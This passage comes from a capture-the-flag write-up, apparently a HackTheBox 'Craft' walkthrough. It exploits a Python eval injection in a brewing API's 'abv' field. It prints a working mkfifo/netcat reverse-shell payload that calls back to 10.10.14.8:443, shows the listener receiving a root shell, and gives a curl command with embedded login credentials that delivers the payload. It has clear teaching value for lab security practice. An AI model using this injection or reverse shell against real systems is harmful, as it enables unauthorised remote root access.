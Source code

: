 Now I’ll check that with the code from gogs, putting `s` where the code has `requests.json['abv']`:

```

>>> eval('%s > 1' % s)
hello, I am a command execution
False

```

Great. Still execution. I want to get a reverse shell. As always, I’ll turn to the [Pentest Monkey cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). In this case, I’ll go with the `mkfifo` shell, which is especially nice in this case since it doesn’t have any `"` or `'` to worry about nesting. I’ll test it locally to make sure I have the syntax correct, and it works:

```

>>> s = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f')"
>>> eval('%s > 1' % s)
rm: cannot remove '/tmp/f': No such file or directory

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.14.8.
Ncat: Connection from 10.10.14.8:48958.
# id
uid=0(root) gid=0(root) groups=0(root)

```

### Shell

Now I’ll just replace the `abv` value from the successful beer POST with the `python` injection code and get a shell as root:

```

root@kali# TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | jq -r '.token'); \
curl -X POST "https://api.craft.htb/api/brew/" -H  "accept: application/json" -H  "Content-Type: application/json" -d "{
\"id\": 0,
\"brewer\": \"0xdf\",
\"name\": \"beer\",
\"style\": \"bad\",
\"abv\": \"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f')\"}" -k -H "X-CRAFT-API-TOKEN: $TOKEN"

```
